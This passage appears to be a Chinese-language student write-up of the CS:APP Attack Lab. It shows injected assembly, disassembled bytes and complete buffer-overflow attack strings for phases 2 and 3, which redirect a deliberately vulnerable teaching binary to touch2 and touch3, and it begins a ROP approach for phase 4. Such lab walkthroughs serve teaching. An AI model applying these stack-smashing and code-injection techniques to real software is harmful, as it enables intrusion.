 + 其字节级表示如下：
```dotnetcli
inject1.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 be 28 4b 24 	mov    $0x244b28be,%rdi
   7:	68 6e 18 40 00       	pushq  $0x40186e
   c:	c3                   	retq   
```
+ 最终得到攻击串如下：
```dotnetcli
48 c7 c7 be 28 4b 24 68 
6e 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 21 65 55
```
### 1.3. phase 3
+ 与第二关类似，输入的字符串不仅需要修改返回地址，返回时调用`touch3`，传入的参数是一个字符串。
+ 根据hexmatch(cookie, sval)函数，可知参数是`cookie`的值`244b28be`这个字符串。
+ 下面尝试把`cookie`的字符串数据存储在`test`的栈上，其他操作同第二问。
+ 数据的准备：
  + `0x244b28be`转成`ASCII`为`32 34 34 62 32 38 62 65`。
  + `getbuf`函数栈顶为`0x55652108`。
  + `touch3`代码地址为`0x401942`。
  + `cookie`的字符串数据在`test`栈上存的位置为返回地址前，即调用`getbuf`前的`rsp`值，为`0x55652148`。
+ 注入代码如下：
```dotnetcli
movq    $0x55652148, %rdi
pushq   $0x401942
ret
```
+ 其字节级表示如下：
```dotnetcli
inject2.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 48 21 65 55 	mov    $0x55652148,%rdi
   7:	68 42 19 40 00       	pushq  $0x401942
   c:	c3                   	retq   
```
+ 在返回该注入代码位置地址之后的八字节位置，存放字符串的阿斯克码数据。最终得到攻击串如下：
```dotnetcli
48 c7 c7 48 21 65 55 68
42 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 21 65 55 00 00 00 00
32 34 34 62 32 38 62 65
```
### 1.4. phase 4
4-5两个关卡，需要对rtarget进行攻击。由于其采用了栈随机化和限制可执行代码区域两种策略来对抗缓冲区溢出攻击，因此我们只能使用ROP攻击策略。即在原程序找到可供我们使用的代码块。
+ 和`phase 2`要求一样要回到touch2函数。
+ `phase 2`的思路如下，但立即数找不到，只能通过转存的寄存器形式得到。
```dotnetcli
movq    $0x244b28be, %rdi
pushq   $0x40186e
ret
```